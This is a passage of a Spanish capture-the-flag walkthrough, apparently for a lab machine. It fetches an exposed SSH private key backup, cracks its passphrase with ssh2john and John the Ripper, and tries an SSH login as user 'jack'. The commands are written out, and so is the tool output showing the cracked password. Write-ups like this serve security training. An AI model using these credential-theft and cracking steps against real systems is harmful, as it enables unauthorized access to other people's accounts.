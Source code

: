 ```
URL = http://<IP>/id_rsa.bak
```

Veremos que si ha funcionado, por lo que vamos a asignarle los permisos correctos al `id_rsa`:

```shell
chmod 600 id_rsa
```

Si recordamos antes cuando encendimos la maquina vimos que daba la bienvenida a un usuario llamado `jack`:

<figure><img src="../../.gitbook/assets/image (348).png" alt=""><figcaption></figcaption></figure>

Por lo que vamos a probar a conectarnos por `SSH` de la siguiente forma:

```shell
ssh -i id_rsa jack@<IP>
```

Veremos que nos pide la clave de la `id_rsa` por lo que vamos a intentar crackearla.

### Crack id\_rsa con john

```shell
ssh2john id_rsa > hash.rsa
```

```shell
john --wordlist=<WORDLIST> hash.rsa
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bananas          (id_rsa)     
1g 0:00:00:46 DONE (2025-04-14 03:47) 0.02129g/s 20.44p/s 20.44c/s 20.44C/s whitney..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado, por lo que vamos a volver a conectarnos por `SSH` metiendo dicha contraseña:
